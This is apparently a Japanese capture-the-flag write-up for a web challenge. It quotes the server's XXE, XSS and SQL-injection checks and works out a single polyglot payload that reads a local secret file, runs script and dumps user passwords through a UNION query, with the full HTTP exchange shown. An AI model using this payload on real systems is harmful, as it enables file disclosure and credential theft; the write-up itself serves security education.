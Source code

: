 # A Payload to rule them all [web]

- Score: 171
- Solves: 65

XXE、XSS、SQLiを同じペイロードで成功させる問題

## 問題概要

http://payload.pwn2.win/source からソースコードが見れる。

```fish
$ http -v --form POST http://payload.pwn2.win/ payload="hogehoge"
```

のようなPOSTをすることで、`hogehoge`によるXXE、XSS、SQLiの攻撃が成功するかをチェックし、すべて成功すればflagを返すような実装になっている。

XXE、XSS、SQLiのチェック部分は次のような感じ。

**test_xxe**

```javascript
function test_xxe(payload) {
  try {
    var my_secret = Math.random().toString(36).substring(2);
    fs.writeFileSync("/home/gnx/script/xxe_secret", my_secret)
    var doc = libxml.parseXml(payload, { noent: true, nonet: true })
    return doc.toString().includes(my_secret)
  } catch(e) {
    return false
  }
}
```

`/home/gnx/script/xxe_secret`に乱数が書き込まれるので、XML内にこの乱数値が含まれるようにすれば良い。

**test_xss**

```javascript
async function test_xss(payload) {
  try {
    const browser = await puppeteer.launch({
      // 省略
    })
    const page = await browser.newPage()
    page.setDefaultNavigationTimeout(1000);
    payload = sanitizeHtml(payload, { allowedTags: [] })
    await page.goto(`data:text/html,<script>${payload}</script>`)
    const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )") // vlw herrera
    await browser.close()
    return check
  } catch (error) {
    console.error(error)
  }
}
```

XSSで変数`xss`に何らかの値を突っ込めば良いことがわかる。ただし、XSSの前にペイロードはサニタイズされる。サニタイズには[libxmljs](https://github.com/libxmljs/libxmljs)が使われている。

**test_sqli**

```javascript
async function test_sqli(payload) {
  var connection = mysql.createConnection({
    // 省略
  })
  const query = util.promisify(connection.query).bind(connection)
  connection.connect()
  const users = await query("SELECT * from users")
  try {
    const sqli = await query(`SELECT * from posts where id='${payload}'`)
    await connection.end()
    return JSON.stringify(sqli).includes(users[0]["password"])
  } catch(e) {
    return false
  }
}
```

SQLiで`users`の中の`password`の値を引っこ抜ければ良い。

## 解法

いい感じにコメントアウトを組み合わせてパズルを解くだけ。最終的に次のようになった。

```
<!--aa' OR 1=1 UNION ALL SELECT NULL, password, NULL FROM users # */--><!DOCTYPE data [<!ENTITY dummy ">window.xss = 1;/*"><!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">]><data>&xxe;*/</data>
```

それぞれ次のように動作する：

### XXE

XMLにとってコメントアウトになる部分を省くと

```xml
<!DOCTYPE data [
    <!ENTITY dummy ">window.xss = 1;/*">
    <!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
]>
<data>&xxe;*/</data>
```

になる（読みやすいように改行しています）。`file:///home/gnx/script/xxe_secret`への外部実体参照を行っている。

### XSS

`test_xss`では最初にサニタイズを行っている。サニタイズ後のコードは

```javascript
window.xss = 1;/*"&gt;]&gt;&amp;xxe;*/
```

となり、`xss`に値が入るのでOK。

### SQLi

これがinjectionされるとSQL文は

```mysql
SELECT * from posts where id='<!--aa' OR 1=1 UNION ALL SELECT NULL, password, NULL FROM users # */--><!DOCTYPE data [<!ENTITY dummy ">window.xss = 1;/*"><!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">]><data>&xxe;*/</data>'
```

になる。UNIONで結合するときにカラム数がわからないので`NULL`で微調整した。

### 実行結果

[httpie](https://httpie.org/)でPOSTしたらこうなった。


```fish
$ http -v --form POST http://payload.pwn2.win/ payload="<!--aa' OR 1=1 UNION ALL SELECT NULL, password, NULL FROM users # */--><!DOCTYPE data [<!ENTITY dummy \">window.xss = 1;/*\"><!ENTITY xxe SYSTEM \"file:///home/gnx/script/xxe_secret\">]><data>&xxe;*/</data>"
POST / HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 302
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: payload.pwn2.win
User-Agent: HTTPie/0.9.8

payload=%3C%21--aa%27+OR+1%3D1+UNION+ALL+SELECT+NULL%2C+password%2C+NULL+FROM+users+%23+%2A%2F--%3E%3C%21DOCTYPE+data+%5B%3C%21ENTITY+dummy+%22%3Ewindow.xss+%3D+1%3B%2F%2A%22%3E%3C%21ENTITY+xxe+SYSTEM+%22file%3A%2F%2F%2Fhome%2Fgnx%2Fscript%2Fxxe_secret%22%3E%5D%3E%3Cdata%3E%26xxe%3B%2A%2F%3C%2Fdata%3E

HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 53
Content-Type: text/html; charset=utf-8
Date: Sat, 30 May 2020 21:41:49 GMT
ETag: W/"35-sI94sUxFxcBb5euZ/qdPcFO4/0Q"
X-Powered-By: Express

CTF-BR{p4yl04d_p0lygl0ts_4r3_m0r3_fun_th4n_f1l3typ3s}
```

## フラグ

`CTF-BR{p4yl04d_p0lygl0ts_4r3_m0r3_fun_th4n_f1l3typ3s}`

## 感想

完全にパズルだった。
